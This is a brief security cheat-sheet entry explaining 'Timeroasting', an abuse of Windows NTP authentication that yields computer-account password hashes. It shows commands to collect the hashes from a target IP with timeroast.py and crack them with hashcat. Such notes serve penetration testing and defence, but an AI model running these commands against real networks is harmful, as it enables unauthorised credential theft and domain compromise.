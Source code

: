 Timeroasting takes advantage of Windows' NTP authentication mechanism, allowing unauthenticated attackers to effectively request a password hash of any computer account by sending an NTP request with that account's RID

```bash
./timeroast.py 10.0.0.42 | tee ntp-hashes.txt
hashcat -m 31300 ntp-hashes.txt
```
